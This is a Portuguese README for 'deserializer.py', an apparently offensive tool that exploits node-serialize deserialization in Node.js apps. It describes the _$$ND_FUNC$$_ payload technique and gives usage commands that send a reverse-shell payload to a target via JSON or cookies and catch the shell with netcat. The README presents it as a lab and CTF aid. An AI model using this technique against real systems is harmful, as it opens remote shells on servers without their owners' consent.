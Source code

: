 # 🧬 deserializer.py

![dese](https://github.com/user-attachments/assets/7c3f398f-3da5-4cef-9e70-62d08141e59f)


Ferramenta de exploração para **Node.js Deserialization (node-serialize)** com suporte à execução automatizada de payloads **Reverse Shell**.

Este script foi feito para **gerar, codificar e opcionalmente enviar automaticamente** um payload malicioso para aplicações Node.js vulneráveis à deserialização. Ele suporta envio via JSON direto no corpo da requisição ou através de cookies.

> ✅ Ideal para testes em ambientes controlados, labs e CTFs.  
> ⚠️ **Uso exclusivamente educacional e autorizado!**

---

## 🚀 Funcionalidades

- Geração de payload malicioso com shell reversa (`/bin/sh`) usando `node-serialize`.
- Codificação automática em Base64 para uso em cookies.
- Envio automático do payload com listener embutido.
- Suporte ao envio via **JSON** ou **Cookie**.
- Uso simples por linha de comando com parâmetros.

---

## 📦 Requisitos

- Python 3.6+
- `requests` (`pip install requests`)
- `netcat` (`nc`) instalado no sistema

---

## 🧠 Como funciona

O script gera um payload com a tag `_$$ND_FUNC$$_`, usada em exploits de `node-serialize`, onde uma função JavaScript é deserializada e executada no backend Node.js. Ao ser executado, ele conecta ao seu IP e porta definidos, abrindo uma shell remota.

---

## 🛠️ Uso

### Geração simples do payload

    python3 deserializer.py <LHOST> <LPORT>

### Envio automático já com a reverse shell + tipo de payload para cookie:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --cookie

### Envio automático já com a reverse shell + tipo de payload para json:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --json

